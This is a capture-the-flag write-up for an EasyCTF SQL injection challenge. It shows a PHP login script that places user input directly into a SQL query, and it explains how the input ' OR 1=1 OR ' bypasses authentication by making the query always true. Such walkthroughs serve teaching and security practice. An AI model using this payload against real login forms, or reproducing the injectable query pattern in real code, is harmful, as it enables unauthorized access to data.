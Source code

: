 # 80 - Injection

*Written by Michael Zhang*

## Problem

This site seems to have some information we need. Unfortunately, it's protected by a login page. Help us get through the login system!

[Website](http://www.easyctf.com/sites/injection) - [Source](injection.phps)

## Hint

You might want to study up on some SQL syntax. How can we modify the query so it will always return true?

## Solution

Examine this bit of injection.phps carefully:

```php
<?php

error_reporting(0);

if (isset($_POST['submit']) && isset($_POST['username']) && isset($_POST['password']) && $_POST['submit'] == "Login") {
	echo "<table border='1'><tr><th>username</th><th>message</th></tr>";
	$username = $_POST['username'];
	$password = $_POST['password'];
	mysql_connect("xxxxxxxxx", "xxxxxxxxx", "xxxxxxxxx");
	@mysql_select_db("xxxxxxxxx") or die("can't select database");
	
	$query = "SELECT * FROM `xxxxxxxxx` WHERE username='$username' AND password='$password'";
	$result = mysql_query($query);
	while($row = mysql_fetch_array($result)) {
		echo "<tr><td>".$row['username']."</td><td>".$row['message']."</td></tr>";
	}
	echo "</table>";
}

?>
```

Notice the query string that fetches the data from the database.

```
$query = "SELECT * FROM `xxxxxxxxx` WHERE username='$username' AND password='$password'";
```

If we set username to `' OR 1=1 OR '`, then the query string would look like

```
$query = "SELECT * FROM `xxxxxxxxx` WHERE username='' OR 1=1 OR '' AND password='whatever'";
```

Since 1 always equals 1, the condition will always be satisfied, so the script pulls all rows out of the database.